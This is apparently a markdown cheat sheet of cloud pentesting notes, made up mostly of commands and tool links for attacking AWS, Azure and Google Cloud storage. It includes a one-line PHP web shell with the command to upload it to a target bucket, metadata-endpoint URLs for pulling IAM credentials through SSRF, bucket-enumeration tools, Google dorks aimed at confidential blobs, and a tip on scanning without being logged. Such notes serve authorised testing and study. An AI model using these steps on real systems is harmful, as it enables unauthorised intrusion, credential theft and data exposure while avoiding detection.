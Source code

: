 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
    #Most devices won't log half open SYN scans (nmap -sS and masscan) or TLS scan to web ports              
## AWS     
AWS GuardDuty for security. No logging or versioning on by default.         
[AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      

    bash install.sh
    python3 pacu.py
    import_keys --all    
[WeirdAAL](https://github.com/carnal0wnage/weirdAAL): Amazon Attack Library     
[AWS_Pwn](https://github.com/dagrz/aws_pwn), 

Access     
     
     CLI: using AWS access key and AWS secret key. Set as enviromental variables.     
     Web: management web portal access.      
Pen Testing on a web server:     

     check for web requests to s3 buckets at https://s3.amazonaws.com/{bucketname} or https://s3-{region}.amazonaws.com/{Org}         
     Config issues:   

Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls s3://bucket.site.com    #list contents of a bucket    
    aws sl ls s3://bucket --region      
    aws --endpoint=http://site.com s3 ls s3://site.com   #list objects and common prefixes    
    aws s3api get-bucket-acl --bucket bucket       
    aws s3 cp file.txt s3://bucket --profile user_profile    
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com     #upload web shell     

Find buckets    
[bucket_finder](https://github.com/FishermansEnemy/bucket_finder), [slurp](https://github.com/bbb31/slurp)          

    bucket_finder.rb search_term --download         
    python3 cloud_enum.py -k example.com       
Instance Metadata     

    "Metadata" endpoint: 169.254.169.254, should only be accessible from localhost. SSRF or other vulns might allow remote attacks to access it.         
    http://169.254.169.254/latest/meta-data/iam/security-credentials/     #IAM creds     
    http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>    

Lambda   

    AWS Lambda: can have vulns and be used to steal AWS keys via command injection.            
    Denonia cryptominer malware targeted Lambda.     
Post Compromise:   

    Enum permissions of access keys     
    weirdAAL - recon_module, PACU priv esc     
### Resources      
https://www.hackthebox.com/blog/aws-pentesting-guide    
https://cloud.hacktricks.xyz/pentesting-cloud/aws-security     
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    

    basicblobfinder.py wordlist   #enum buckets       
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security. [List of Buckets by IPS](https://www.gstatic.com/ipranges/cloud.json)           
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
Bucket permissions: listable (enum and read files), writeable (upload)       

    gcpbucketbrute.py -u -k search_org      
    gsutil ls gs://bucket       #list contents of a public bucket     
